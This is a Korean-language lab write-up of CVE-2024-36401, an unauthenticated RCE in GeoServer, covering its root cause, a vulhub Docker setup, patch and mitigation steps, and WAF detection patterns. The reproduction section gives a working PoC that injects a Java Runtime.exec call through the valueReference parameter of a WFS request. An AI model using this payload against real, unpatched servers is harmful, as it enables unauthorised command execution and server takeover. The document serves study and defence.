



# CVE-2024-36401

Contributors

-   [ejrdus](https://github.com/ejrdus)

<br/>

---

## GeoServer란?

GeoServer는 지리 공간(Geospatial) 데이터를 웹으로 공유·편집·시각화할 수 있는 Java 기반 오픈소스 서버입니다.

쉽게 말해, 지도 데이터를 인터넷으로 뿌려주는 서버입니다. 공공기관, 연구기관, 기업에서 GIS(지리정보시스템) 데이터를 웹으로 제공할 때 널리 사용합니다.

-   WFS(Web Feature Service), WMS(Web Map Service), WPS(Web Processing Service) 등 OGC 국제 표준 프로토콜을 지원합니다.
-   내부적으로 GeoTools라는 Java 라이브러리를 사용해 공간 데이터를 처리합니다.

이 GeoTools 라이브러리에서 이번 취약점(CVE-2024-36401)이 발생합니다.

<br/>

---

## CVE-2024-36401 소개

### 한 줄 요약

> 인증 없이 HTTP 요청 하나로 GeoServer 서버에서 원격으로 임의의 시스템 명령을 실행할 수 있는 치명적인 취약점입니다.

<br/>

### 기본 정보

| 항목 | 내용 |
|---|---|
| CVE 번호 | CVE-2024-36401 |
| 영향 소프트웨어 | GeoServer 2.23.6 미만 / 2.24.4 미만 / 2.25.2 미만 |
| 취약점 유형 | 원격 코드 실행 (RCE, Remote Code Execution) |
| 인증 필요 여부 | 불필요 (익명 공격 가능) |
| CVSS 3.1 Score | 9.8 (Critical) |
| CVSS Vector | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| 공개일 | 2024년 7월 |
| 실제 악용 여부 | CISA KEV(Known Exploited Vulnerabilities) 등재 — 실전에서 대량 악용됨 |

<br/>

### 취약점의 근본 원인

#### 배경: OGC 요청과 Property Name

GeoServer는 WFS `GetPropertyValue` 같은 OGC 요청을 처리할 때, 사용자가 보낸 속성 이름(property name) 을 받아서 해당 데이터 필드의 값을 돌려줍니다.

예를 들어 정상적인 요청은 이렇습니다:

```
valueReference=name
```

"archsites 레이어에서 `name` 필드 값을 줘"라는 뜻입니다.

#### 문제: XPath 평가기가 함수 실행을 허용함

GeoServer는 이 속성 이름을 내부적으로 XPath 표현식으로 평가합니다. 이때 사용하는 라이브러리가 `commons-jxpath`인데, 이 라이브러리는 단순 필드 이름 조회뿐 아니라 Java 메서드 호출까지 허용합니다.

그래서 속성 이름 자리에 이런 걸 넣으면:

```
exec(java.lang.Runtime.getRuntime(),'touch /tmp/success1')
```

서버가 이걸 "필드 이름"이 아니라 "실행할 Java 코드"로 해석해서 `touch /tmp/success1` 명령을 서버 내부에서 그대로 실행합니다.

#### 왜 모든 GeoServer에 영향을 주나?

원래 이 XPath 평가는 복잡한 피처 타입(Application Schema)에만 써야 하는 기능입니다. 그런데 GeoServer가 단순 피처 타입에도 잘못 적용하는 바람에, 기본 설치된 GeoServer 전체가 취약점의 영향을 받게 됩니다.

#### 공격이 성공했다는 신호: ClassCastException

공격 요청을 보내면 서버는 `exec()`가 반환한 Process 객체를 화면에 표시할 일반 값(AttributeDescriptor)으로 변환하려다 실패합니다. 그래서 아래와 같은 오류를 응답합니다:

```
java.lang.ClassCastException: class java.lang.ProcessImpl cannot be cast to
class org.opengis.feature.type.AttributeDescriptor
```

이 오류는 "명령 실행에 실패"가 아니라, 명령이 이미 실행된 뒤 결과값 처리에서 오류가 난 것입니다. 즉, `ClassCastException` 응답 = 공격 성공의 신호입니다.

<br/>

### 공격 가능한 요청 종류

공식 권고에 따르면 아래 OGC 요청 파라미터를 통해 모두 RCE가 가능합니다:

-   WFS `GetPropertyValue` ← 본 실습에서 사용
-   WFS `GetFeature`
-   WMS `GetMap`
-   WMS `GetFeatureInfo`
-   WMS `GetLegendGraphic`
-   WPS `Execute`

<br/>

---

## 환경 구성

### 실습 환경 사양

| 항목 | 내용 |
|---|---|
| 취약 소프트웨어 | GeoServer 2.23.2 |
| Docker 이미지 | `vulhub/geoserver:2.23.2` |
| 포트 | 8080 |
| 컨테이너 수 | 1개 (단일 컨테이너) |

### docker-compose.yml

```yaml
version: '3'
services:
  web:
    image: vulhub/geoserver:2.23.2
    platform: linux/amd64
    ports:
      - "8080:8080"
```

### 환경 실행

```bash
docker compose up -d
```

### 실행 확인

```bash
docker compose ps
```

`STATUS`가 `Up`으로 표시되면 정상입니다.

브라우저에서 아래 주소로 접속해 GeoServer 웹 페이지가 뜨는지 확인합니다:

```
http://127.0.0.1:8080/geoserver/web
```



> 페이지 하단에 "이 GeoServer는 2.23.2 버전에서 운영 중입니다"라고 표시됩니다. 취약 버전이 정상적으로 실행 중임을 확인할 수 있습니다.

<br/>

---

## 취약 조건

-   GeoServer 2.23.6 미만, 2.24.4 미만, 2.25.2 미만 버전
-   기본 설치 상태 (별도 설정 불필요)
-   공격자 인증 불필요 — 인터넷에서 접근 가능한 GeoServer라면 누구든 악용 가능
-   요청에 실제로 존재하는 레이어 이름(`typeNames`)이 필요 → 기본 데모 레이어 `sf:archsites` 사용 (로그인 없이 목록 확인 가능)
-   공격자가 해당 취약점을 악용하면 서버에서 임의의 명령 실행이 가능하며, 파일 읽기 및 쓰기, 웹쉘 설치, 악성코드 실행, 내부망 이동(Lateral Movement), 서비스 장악 등의 추가 공격으로 이어질 수 있습니다.

<br/>

---

## 재현 절차

### Step 1. 취약 환경 실행

```bash
docker compose up -d
docker compose ps   # STATUS: Up 확인
```

### Step 2. PoC 실행 — GET 방식 (curl)

```bash
curl -G "http://127.0.0.1:8080/geoserver/wfs" \
  --data-urlencode "service=WFS" \
  --data-urlencode "version=2.0.0" \
  --data-urlencode "request=GetPropertyValue" \
  --data-urlencode "typeNames=sf:archsites" \
  --data-urlencode "valueReference=exec(java.lang.Runtime.getRuntime(),'touch /tmp/success1')"
```

또는 브라우저 주소창에 직접 입력:

```
http://127.0.0.1:8080/geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1')
```

### Step 3. 명령 실행 성공 여부 확인

```bash
docker compose exec web ls -l /tmp/
```

<br/>

---

## 실행 결과

### 공격 요청 응답 — ClassCastException 발생

PoC 요청을 전송하면, 서버는 아래와 같은 XML 오류를 응답합니다.



```xml
<ows:ExceptionText>java.lang.ClassCastException: class java.lang.ProcessImpl
cannot be cast to class org.opengis.feature.type.AttributeDescriptor</ows:ExceptionText>
```

`ProcessImpl`은 Java에서 실제로 실행된 프로세스를 나타내는 객체입니다. 이 오류는 서버가 명령 실행 결과(Process 객체)를 일반 데이터 값으로 변환하려다 실패한 것으로, 명령이 이미 실행된 뒤에 발생합니다. 즉 이 오류 응답 자체가 RCE 성공의 증거입니다.

### 컨테이너 내부 파일 생성 확인

```bash
docker compose exec web ls -l /tmp/
```



`/tmp/success1` 파일이 소유자 `root` 로 생성된 것을 확인할 수 있습니다. 인증 없이 보낸 HTTP 요청 하나만으로 서버 내부에서 root 권한으로 명령이 실행되었음을 확인할 수 있습니다.
본 실습에서는 Docker 컨테이너가 기본적으로 root 사용자로 실행되므로, Runtime.exec()로 실행된 명령 역시 root 권한으로 수행됩니다.

<br/>

---

## 대응 방안

### 1. 패치 버전으로 업그레이드 (권장)

아래 버전 이상으로 즉시 업그레이드합니다. 근본 원인인 GeoTools도 함께 패치됩니다.

| 현재 버전 | 패치 버전 |
|---|---|
| 2.23.x | 2.23.6 이상 |
| 2.24.x | 2.24.4 이상 |
| 2.25.x | 2.25.2 이상 |

### 2. 임시 완화 조치 (업그레이드 전)

취약한 코드가 포함된 `gt-complex-x.y.jar` 파일을 GeoServer에서 제거합니다. (x.y는 GeoTools 버전)

```
WEB-INF/lib/gt-complex-x.y.jar
```

### 3. 접근 제어 강화

-   GeoServer 관리 인터페이스 및 OGC 엔드포인트에 인증·IP 화이트리스트 적용
-   불필요한 OGC 서비스(WPS 등) 비활성화
-   인터넷 직접 노출 금지, 방화벽으로 접근 제한

### 4. 탐지 및 모니터링

WAF(웹 방화벽)나 IDS에서 아래 패턴을 탐지·차단합니다:

-   요청 파라미터에 `exec(`, `java.lang.Runtime`, `getRuntime()`, `commons-jxpath` 포함 여부
-   `valueReference` 파라미터에 함수 호출 형태 포함 여부

<br/>

---

## 정리

CVE-2024-36401은 GeoServer가 OGC 요청의 속성 이름을 XPath 표현식으로 안전하지 않게 평가하면서 발생하는 취약점입니다. 공격자는 인증 없이 HTTP 요청 하나만으로 서버에서 임의의 시스템 명령을 실행할 수 있으며, 이는 서버 완전 장악으로 이어질 수 있습니다.

CVSS 9.8(Critical)로 평가되었고, 실제로 CISA KEV에 등재될 만큼 실전에서 대규모로 악용된 사례가 있습니다. 영향 버전을 사용 중이라면 즉시 패치 버전으로 업그레이드해야 합니다.
